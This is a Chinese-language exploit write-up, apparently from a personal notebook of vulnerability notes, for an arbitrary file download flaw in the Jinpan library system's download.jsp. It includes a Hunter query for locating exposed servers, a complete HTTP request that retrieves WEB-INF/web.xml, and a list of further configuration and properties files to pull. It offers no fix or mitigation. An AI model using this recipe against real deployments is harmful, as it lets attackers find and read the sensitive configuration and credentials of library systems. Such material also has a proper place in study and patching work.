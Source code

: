# 金盘图书馆系统download存在任意文件下载漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">金盘移动图书馆系统 download.jsp 任意文件下载，攻击者可通过此漏洞获取敏感信息，从而为下一步攻击做准备。</font>

# 二、影响版本
+ 金盘图书馆系统

# 三、资产测绘
+ hunter`web.body="/opac/opacRssCollect"`
+ 特征

![1706076005993-3c01f170-38cf-4fef-a8a9-9f2b8d038e47.png](./img/x_-unzLuHa8IxmEt/1706076005993-3c01f170-38cf-4fef-a8a9-9f2b8d038e47-764235.png)

# 四、漏洞复现
```plain
GET /pages/admin/tools/file/download.jsp?items=/WEB-INF/web.xml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=9464BF4CB3C292D28F4239D97F50B1B6
Upgrade-Insecure-Requests: 1
```

![1706076638335-24a129c0-1c51-4a93-8fd4-b39ec8e865e7.png](./img/x_-unzLuHa8IxmEt/1706076638335-24a129c0-1c51-4a93-8fd4-b39ec8e865e7-583200.png)

其他文件位置

```plain
/pages/admin/tools/file/download.jsp?items=/WEB-INF/flex/proxy-config.xml
/pages/admin/tools/file/download.jsp?items=/WEB-INF/flex/services-config.xml
/pages/admin/tools/file/download.jsp?items=/WEB-INF/flex/remoting-config.xml
/pages/admin/tools/file/download.jsp?items=/WEB-INF/flex/messaging-config.xml
/pages/admin/tools/file/download.jsp?items=/WEB-INF/flex/data-management-config.xml
/pages/admin/tools/file/download.jsp?items=/WEB-INF/classes/lcatalina.properties
/pages/admin/tools/file/download.jsp?items=/WEB-INF/classes/application.properties
```



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fbglrzkd6l0zsdg2>